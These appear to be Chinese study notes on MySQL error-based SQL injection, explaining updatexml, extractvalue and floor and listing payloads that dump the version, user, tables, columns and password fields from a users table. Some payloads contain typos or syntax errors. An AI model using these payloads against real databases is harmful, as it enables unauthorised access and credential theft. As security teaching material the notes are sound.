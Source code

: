 ##### 几个报错注入常用的Mysql函数

1. updatexml(xml_doc, xpath_str, new_value)

   a. xml_doc: string格式，xml文档对象

   b. xxpath_str: path格式字符串
   c. new_value: 替换查询找到的，符合条件的数据

   d. 函数作用: 更改文档中符合条件节点的值

2. extractvalue(str_doc, xpath_str)

   a. str_doc: xml文档对象字符串

   b. xpath_str: xpath格式字符串

   c. 函数作用: 返回匹配路径的值

3. floor(number)

   a. number: 整型数据

   b. 函数作用: 返回小于或等于数字的最大数值



##### 基于回显报错Mysql注入

一般包括如下几个步骤

1. 探测数据库

   ```bash
   xxx' and updatexml(1, concat(0x7e, (select @@version)), 1) --+
   ```

2. 探测数据库当前用户

   ```bash
   xxx' and updatexml(1, concat(0x7e, (select user())), 1) --+
   ```

3. 爆表

   ```bash
   xxx' and updatexml(1, concat(0x7e, (select table_name from information_schema.tables where table_schema=database())), 0x7e)
   
   xxx' and updatexml(1, concat(0x7e, (select table_name from information_schema.tables where table_schema=database() limit 0, 1)), 0x7e)
   ```

4. 爆字段

   ```bash
   xxx' and updatexml(1, concat(0x7e, (select column_name from information_schema.columns where table_schme=database() limit 0, 1)), 0x7e)
   ```

5. 爆内容

   ```bash
   xxx' and updatexml(1, concat(0x7e, (select password, name from users limit 0,1)), 0) --+
   ```

   

##### insert注入报错和update注入报错delete注入报错

```bash
xxx' or updatexml(1, concat(0x7e, database()), 0) or '
```



##### floor函数报错注入

```bash
xxx' and (select 2 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a) --+

xxx' and (select 2 from (select count(*),concat(select password from users where username='admin' limit 0, 1),floor(rand(0)*2))x from information_schema.tables group by x)a)#
```



##### 小总结

使用updatexml和extractvalue这两个函数进行报错注入的方式是差不多的，floor函数的使用需要结合count运行和group by语句的参与

---

that's all



